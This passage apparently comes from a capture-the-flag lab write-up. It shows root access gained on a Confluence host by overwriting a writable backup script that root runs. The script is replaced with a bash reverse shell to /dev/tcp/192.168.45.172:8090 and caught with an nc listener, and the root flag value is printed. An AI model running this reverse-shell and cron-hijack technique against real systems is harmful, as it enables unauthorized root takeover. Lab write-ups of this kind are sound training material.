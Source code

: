 But we can write to it and make it interesting!

```
$ ls -la
total 756692
drwxr-xr-x  3 root       root            4096 Dec 12 11:01 .
drwxr-xr-x 19 root       root            4096 Dec 12 09:45 ..
drwxr-xr-x  3 root       root            4096 Dec 12 10:13 atlassian
-rwxr-xr-x  1 root       root       774829955 Dec 12 10:05 atlassian-confluence-7.13.6-x64.bin
-rwxr-xr-x  1 confluence confluence       408 Dec 12 11:01 log-backup.sh
```

I write the file line by line and exit the session.

```
confluence@flu:/opt$ echo '#!/bin/bash' > log-backup.sh
echo '#!/bin/bash' > log-backup.sh
confluence@flu:/opt$ echo 'bash -i >& /dev/tcp/192.168.45.172/8090 0>&1' >> log-backup.sh
</dev/tcp/192.168.45.172/8090 0>&1' >> log-backup.sh
confluence@flu:/opt$ cat log-backup.sh
cat log-backup.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.172/8090 0>&1
confluence@flu:/opt$ ^C
```

I restart my local listener on the same port again and wait...

Pretty quickly we get a shell as `root`!

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ nc -lnvp 8090
listening on [any] 8090 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.41] 53816
bash: cannot set terminal process group (25622): Inappropriate ioctl for device
bash: no job control in this shell
root@flu:~# whoami
whoami
root
```

And we find our flag where we expect to find it:

```
root@flu:~# cat /root/proof.txt
cat /root/proof.txt
4896befc9ccc8543b8a8c523857e897d
```

Look at that! We didn't even need to ever figure out what was running on port 8091!
